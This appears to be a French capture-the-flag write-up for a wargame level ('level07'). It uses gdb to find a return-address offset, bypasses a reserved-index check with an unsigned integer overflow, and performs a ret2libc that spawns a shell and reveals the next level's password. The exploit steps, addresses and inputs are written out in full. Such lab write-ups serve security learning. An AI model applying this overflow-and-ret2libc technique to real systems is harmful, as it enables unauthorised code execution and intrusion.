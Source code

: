 En desassemblant le code que l'on ne peux pas passer de shellcode ni en arguments du programme ni en overflow le fgets.

On va donc creuser le programme !

On voit que l'on a deux fonctions qui peuvent nous interresser. 

- read - Qui demande a l'uilisateur un index a affiché sur la sortie standard
- store - Qui stock un nombre non signé dans un index bien spécifique

On voit aussi qu'il est interdis de stocker un nombre à certains index

```bash
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
 Index: 1
 Number at data[1] is 0
 Completed read command successfully
Input command: 1
 Failed to do 1 command
Input command: store
 Number: 123
 Index: 3
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 123
 Index: 2
 Completed store command successfully
Input command: store
 Number: 123
 Index: 6
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command:
```

On va essayer de trouver un moyen de stocke une information sur un index interdis 

```gdb
(gdb) set disassembly-flavor intel
(gdb) b *main+718
Breakpoint 1 at 0x80489f1
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) x/x $esp
0xffffd68c:	0xf7e45513
(gdb) b *main+110
Breakpoint 2 at 0x8048791
(gdb) c
Continuing.
[Inferior 1 (process 4290) exited normally]
(gdb) i b
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x080489f1 <main+718>
	breakpoint already hit 1 time
2       breakpoint     keep y   0x08048791 <main+110>
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 2, 0x08048791 in main ()
(gdb) x/x $esp
0xffffd4a0:	0x00000040
(gdb) x/x $esp+0x24
0xffffd4c4:	0x00000000
(gdb) p 0x68c - 4c4
Invalid number "4c4".
(gdb) p 0x68c - 0x4c4
$1 = 456
```
On tombe sur 456 / 4 == 114 mais avec 114 on ne peux pas écrire car 114 % 3 == 0

Vu que c'est un entier non signé on va essayer d'overflow l'unsigned pour quand même écrire aux bon index.

```bash
❯ python -c "print((0xffffffff + 1) / 4 + 114)"
1073741938 # Voilaaaa
```

Il ne reste plus qu'a récuperer les adresse de system et de "/bin/sh" pour faire un ret2libC avec des unsigned int

```gdb
(gdb) info proc map
process 4293
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) p 0xf7e6aed0
$2 = 4159090384
(gdb) p 0xf7f897ec
$3 = 4160264172
```

On a plus qu'a inserer le tout dans le tableau et quit le programme pour être redirigé vers la fonction system

```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: 4159090384
 Failed to do 4159090384 command
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
